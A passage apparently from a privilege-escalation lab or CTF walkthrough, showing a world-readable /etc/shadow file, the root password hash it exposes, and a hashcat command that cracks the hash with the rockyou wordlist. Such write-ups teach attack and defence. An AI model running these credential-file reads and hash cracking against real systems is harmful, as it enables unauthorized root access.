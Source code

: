 <br>

---

<br>

### #2 - Cracking the password hash of the root user

The **/etc/shadow** file is readable by everyone exposing the root users password hash:

`ls -al /etc/shadow`

```
-rw-r--r-- 1 root shadow 1131 Jul  4 13:58 /etc/shadow
```

`cat /etc/shadow | grep root`

```
root:$6$f8oZEFNA$UOFFeLjt0qwBJhokX0Jrl6dZyaYpvoCdyCaZasuYYBownvwoTGq7RafXBe/BT7A9xsOuDzUQ/icOqsPOLVdos/:18793:0:99999:7:::
```

Running that through hashcat cracks it pretty quickly:

`hashcat -m 1800 -w 3 -D 1,2 hash.txt rockyou.txt`

![](images/groot7.jpg)
